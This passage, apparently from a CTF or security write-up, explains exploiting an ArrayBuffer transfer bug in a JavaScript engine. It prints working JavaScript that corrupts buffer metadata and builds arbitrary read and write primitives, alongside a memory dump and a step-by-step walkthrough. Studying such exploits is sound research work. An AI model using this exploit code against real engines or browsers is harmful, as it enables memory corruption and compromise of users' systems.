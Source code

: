 At this point we knew we could do better and get an arbitrary read/write primitive. Exploitation took us a while even after this discovery. Eventually, we came up with a good primitive and an address leak (even though the address we leak is not a convenient one, as we will see).

To gain arbitrary read/write we used the following code:

```js
var buf = new ArrayBuffer(0x104);
var buf32 = new Uint32Array(buf);
buf32[8] = 0xfffff0; // m_size
buf32[10] = 1; // m_inline
buf32[12] = 1; // m_detach_key
buf32[15] = 0x7ffe0000; // undefined

var pwn = buf.transfer(0x10);
var pwnview = new DataView(pwn);
var victim = new ArrayBuffer(0x10);
var victimview = new DataView(victim);

function arb_read(addr) {
  pwnview.setFloat64(0x80, itof(addr), true);
  pwnview.setInt32(0x88, 0xfff0, true);
  pwnview.setInt32(0xa8, 0, true);
  var ret = ftoi(victimview.getFloat64(0, true));
  pwnview.setInt32(0xa8, 1, true);
  return ret;
}

function arb_write(addr, data, len) {
  for (let i = 0; i < len; i++) {
    pwnview.setFloat64(0x80, itof(addr + BigInt(i * 8)), true);
    pwnview.setInt32(0x88, 0xfff0, true);
    pwnview.setInt32(0xa8, 0, true);
    victimview.setFloat64(0, itof(data[i]), true);
  }
  pwnview.setInt32(0xa8, 1, true);
}
```

Let's walk through this:

- first, we create an `ArrayBuffer` just big enough to trigger the `transfer` bug
- then we set its memory so that, when copied, `m_size` is a big number, `m_inline` is true, and `m_detach_key` is true (as well as other metadata found after it to keep from corrupting stuff)
- once done, we use transfer: with this, we have now gained a very big ArrayBuffer. In memory, it looks like the following:

```text
0x56428f760480:	0x0000000000000000	0x0000000000000000 <- m_inline_buffer
0x56428f760490:	0x0000000000000000	0x0000000000000000 <- m_inline_buffer + 0x10
0x56428f7604a0:	0x0000000000fffff0	0x0000000000000001 <- m_size, m_inline = true
0x56428f7604b0:	0x0000000000000001	0x7ffe000000000000 <- m_detach_key = true, undefined
```

- we can now use this to leak addresses that come after this. Moreover, if we get an `ArrayBuffer` we control after this, we can overwrite its `m_outline_buffer` to gain arbitrary read/write! To do so, we just need to quickly allocate a victim ArrayBuffer to be used for our OOB reads/writes.
- Finally, we implement `arb_read` and `arb_write`: given the local OOB read/write on the pwn `ArrayBuffer`, we overwrite the `ByteBuffer` of the victim. In particular, we set `m_outline_buffer` to the address we want to read/write, we additionally set the length to a big value, we clear the `m_inline` bool, and read/write the value we wanted. After doing this we also reset the `m_inline` bool to true: the JS shell was crashing when exiting as it was trying to free the victim `ByteBuffer` as if it was allocated (which doesn't end well when the address you are trying to free is very far from the heap).
